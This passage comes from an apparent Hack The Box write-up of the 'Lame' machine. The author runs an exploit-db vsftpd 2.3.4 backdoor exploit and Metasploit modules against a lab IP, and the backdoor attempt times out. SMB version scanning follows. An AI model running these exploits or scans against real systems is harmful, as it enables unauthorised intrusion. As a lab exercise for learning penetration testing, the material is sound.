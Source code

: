 ```
```
I tried to look at different payloads, but it seems I do not have many choices:
```
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show payloads

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection
```
Searchsploit references another exploit using Python:
```
$cp /usr/share/exploitdb/exploits/unix/remote/49757.py vsftpd_exploit.py
$python3 vsftpd_exploit.py 10.129.123.233
Traceback (most recent call last):
  File "/home/x5450/Documents/htb/machines/lame/vsftpd_exploit.py", line 37, in <module>
    tn2=Telnet(host, 6200)
  File "/usr/lib/python3.9/telnetlib.py", line 218, in __init__
    self.open(host, port, timeout)
  File "/usr/lib/python3.9/telnetlib.py", line 235, in open
    self.sock = socket.create_connection((host, port), timeout)
  File "/usr/lib/python3.9/socket.py", line 843, in create_connection
    raise err
  File "/usr/lib/python3.9/socket.py", line 831, in create_connection
    sock.connect(sa)
TimeoutError: [Errno 110] Connection timed out
```
It seems no backdoor is opened at port 6200. Maybe the server has been patched.
### Samba
Using `msfconsole`, we can get the version of the Samba server:
```
[msf](Jobs:0 Agents:0) >> search scanner smb

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank    Check  Description
   -   ----                                                            ---------------  ----    -----  -----------
   20  auxiliary/scanner/smb/smb_version                                                normal  No     SMB Version Detection

Interact with a module by name or index. For example info 23, use 23 or use auxiliary/scanner/smb/impacket/wmiexec

[msf](Jobs:0 Agents:0) >> use 20
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

```